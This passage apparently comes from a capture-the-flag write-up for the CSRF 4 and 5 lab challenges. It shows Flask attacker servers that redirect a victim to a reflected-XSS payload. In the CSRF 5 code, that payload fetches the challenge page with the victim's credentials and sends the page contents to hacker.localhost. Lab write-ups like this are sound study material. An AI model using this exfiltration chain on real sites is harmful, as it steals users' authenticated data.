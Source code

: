 ```python csrf4.py
            window.location.href = "http://challenge.localhost:80/ephemeral?msg=%3cscript%3e''' + js_str + '''%3c/script%3e";
        </script>
    '''

app.config['SERVER_NAME'] = f"hacker.localhost:1337"
app.run(host='hacker.localhost', port=1337)
```
Then get the password of admin. Login the admin account to get the flag.

# CSRF 5
Similar to Challenge CSRF 4.
```python csrf5.py
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    ### the below comment is wrong because fetch() function is async.
    # js_str = '''var html="";
    #             fetch("http://challenge.localhost:80/", {credentials: "include"}).then(response => response.text()).then(text => {html=text;});
    #             fetch("http://hacker.localhost:1337" + html)'''
    js_str = '''var html="";
                fetch("http://challenge.localhost:80/", {credentials: "include"})
                    .then(response => response.text())
                    .then(text => {
                        html=text; fetch("http://hacker.localhost:1337/?html=" + html)
                    });
    '''
    js_str = js_str.replace(' ', '%20').replace('"', '%22').replace("\n", '%0a').replace('+', '%2b')
    return '''
        <script>
            window.location.href = "http://challenge.localhost:80/ephemeral?msg=%3cscript%3e''' + js_str + '''%3c/script%3e";
        </script>
    '''

app.config['SERVER_NAME'] = f"hacker.localhost:1337"
app.run(host='hacker.localhost', port=1337)
```
